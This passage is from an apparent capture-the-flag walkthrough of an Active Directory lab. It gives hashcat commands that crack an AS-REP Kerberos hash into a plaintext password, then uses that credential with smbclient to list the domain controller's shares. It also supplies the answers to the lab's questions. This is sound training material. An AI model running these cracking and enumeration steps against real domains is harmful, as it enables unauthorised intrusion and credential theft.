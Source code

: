Answer: `svc-admin`

### Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)

https://hashcat.net/wiki/doku.php?id=example_hashes

Answer: `Kerberos 5, etype 23, AS-REP`

### What mode is the hash?

Answer: `18200`

### Now crack the hash with the modified password list provided, what is the user accounts password?

`hashcat -a 0 -m 18200 asrep passwordlist.txt`

Answer: `management2005`

# Task 6 Enumeration Back to the Basics

**Enumeration:**

With a user's account credentials we now have significantly more access within the domain. We can now attempt to enumerate any shares that the domain controller may be giving out.

### What utility can we use to map remote SMB shares?

Answer: `smbclient`

### Which option will list shares?

`smbclient --help | grep list`

Answer: `-L`


### How many remote shares is the server listing?

```
smbclient -L spookysec.local -U svc-admin@spookysec.local --password management2005
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
backup          Disk      
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to spookysec.local failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
